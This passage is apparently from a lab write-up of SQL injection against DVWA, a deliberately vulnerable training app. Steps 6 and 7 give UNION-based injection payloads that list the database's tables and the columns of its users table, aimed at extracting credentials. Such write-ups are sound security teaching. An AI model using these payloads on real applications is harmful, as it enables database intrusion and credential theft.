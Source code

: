   </p>



     - **Explanation**: The `DATABASE()` function identified the database as `dvwa`.



  6. **Retrieving Table Names**:

     - I entered `1' OR 1=1 UNION SELECT 1, table_name FROM information_schema.tables WHERE table_type='base table' AND table_schema='dvwa'#`.

     - Observed:



       <p align="center">

  <img src="images/tables.png" width="300"/>

  </p>



     - **Findings**: Identified `guestbook` and `users` tables; prioritized `users` for credentials.



  7. **Retrieving Column Names**:

     - I entered `1' OR 1=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='users'#`.

     - Identified columns: User accounts

     - **Findings**: Focused on `user` and `password` column for credential extraction.
       